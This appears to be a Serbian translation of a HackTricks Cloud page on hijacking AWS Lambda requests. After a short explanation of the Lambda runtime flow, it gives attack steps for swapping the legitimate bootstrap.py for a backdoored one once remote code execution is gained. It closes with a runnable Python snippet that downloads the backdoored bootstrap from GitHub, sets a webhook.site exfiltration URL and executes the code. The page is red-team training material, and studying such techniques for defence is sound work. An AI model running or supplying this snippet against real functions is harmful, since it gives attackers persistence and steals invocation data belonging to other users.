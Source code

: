# AWS - Ukradi Lambda Zahteve

{% hint style="success" %}
Uči i vežbaj AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Uči i vežbaj GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proveri [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridruži se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **prati** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podeli hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Lambda Tok

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** je proces van kontejnera koji **šalje** **invokacije** procesu **init**.
2. Proces init sluša na portu **9001** izlažući neke zanimljive krajnje tačke:
* **`/2018-06-01/runtime/invocation/next`** – dobiti sledeći događaj invokacije
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – vratiti odgovor handler-a za invokaciju
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – vratiti grešku u izvršavanju
3. **bootstrap.py** ima petlju koja dobija invokacije iz init procesa i poziva korisnički kod da ih obradi (**`/next`**).
4. Na kraju, **bootstrap.py** šalje init-u **odgovor**

Napomena da bootstrap učitava korisnički kod kao modul, tako da se svako izvršavanje koda koje obavlja korisnički kod zapravo dešava u ovom procesu.

## Ukradanje Lambda Zahteva

Cilj ovog napada je da se korisnički kod izvrši kao zlonamerni **`bootstrap.py`** proces unutar **`bootstrap.py`** procesa koji obrađuje ranjivu zahtev. Na ovaj način, **zlonamerni bootstrap** proces će početi da **komunicira sa init procesom** kako bi obradio zahteve dok je **legitiman** bootstrap **zarobljen** u izvršavanju zlonamernog, tako da neće tražiti zahteve od init procesa.

Ovo je jednostavan zadatak za postizanje jer se kod korisnika izvršava od strane legitimnog **`bootstrap.py`** procesa. Tako da napadač može:

* **Poslati lažni rezultat trenutne invokacije init procesu**, tako da init misli da bootstrap proces čeka na više invokacija.
* Zahtev mora biti poslat na **`/${invoke-id}/response`**
* Invoke-id se može dobiti iz steka legitimnog **`bootstrap.py`** procesa koristeći [**inspect**](https://docs.python.org/3/library/inspect.html) python modul (kao [predloženo ovde](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) ili jednostavno ponovo zahtevati na **`/2018-06-01/runtime/invocation/next`** (kao [predloženo ovde](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Izvršiti zlonamerni **`boostrap.py`** koji će obraditi sledeće invokacije
* U svrhu prikrivanja, moguće je poslati parametre lambda invokacija na C2 kontrolisan od strane napadača i zatim obraditi zahteve kao i obično.
* Za ovaj napad, dovoljno je dobiti originalni kod **`bootstrap.py`** sa sistema ili [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodati zlonamerni kod i pokrenuti ga iz trenutne lambda invokacije.

### Koraci Napada

1. Pronađi **RCE** ranjivost.
2. Generiši **zlonamerni** **bootstrap** (npr. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Izvrši** zlonamerni bootstrap.

Možeš lako izvršiti ove akcije pokretanjem:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Za više informacija proverite [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Reference

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
